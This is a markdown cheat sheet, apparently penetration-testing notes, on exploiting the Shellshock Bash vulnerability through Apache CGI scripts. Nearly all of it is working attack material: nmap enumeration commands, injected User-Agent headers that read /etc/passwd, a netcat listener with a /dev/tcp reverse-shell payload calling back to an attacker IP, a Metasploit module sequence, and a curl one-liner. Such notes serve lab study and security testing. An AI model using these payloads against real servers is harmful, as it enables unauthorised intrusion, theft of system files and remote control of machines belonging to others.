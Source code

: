 The Shellshock vulnerability is caused by a ***vulnerability in Bash***, whereby Bash mistakenly ***executes trailing commands after a series of characters: () {:;};***. 

***Apache web servers*** configured to run `CGI scripts or .sh scripts are also vulnerable` to this attack. CGI (Common Gateway  Interface) scripts are used by Apache to execute arbitrary commands on the Linux system.

***

## Manual Attack
#### Enumerate
```
nmap -sV IP
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" IP
```

Also, check the source page for the `cgi`. Input the `cgi` path on the `nmap-args`.

#### BurpSuite
- Turn on the BurpSuite proxy in the browser 
- Under Proxy > turn on intercept > send to repeater and navigate to the Repeater Tab.

Make sure the GET request is `GET /gettime.cgi HTTP/1.1`.
```
# Modify the User Agent under Request
User-Agent: () { :; }; echo; echo; /bin/bash -c "cat /etc/passwd"
```

- Click Send

#### Reverse Shell
**Terminal**
```
nc -nvlp 4444
```

**Burpsuite**
```
# Modify under Request
User-Agent: () { :; }; echo; echo; /bin/bash -c "bash -i>&/dev/tcp/Attacker's IP/4444 0>&1"
```


## Metasploit 
```
search shellshock
use /exploit/multi/http/apache_mod_cgi_bash_env_exec
set rhosts IP
set targeturi /gettime.cgi  ##--> cgi path
set lhost IP ##--> If not already set
run
```

## One Liner attack 
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \http://localhost:80/gettime.cgi
```

**URL** : hxxps://github.com/opsxcq/exploit-CVE-2014-6271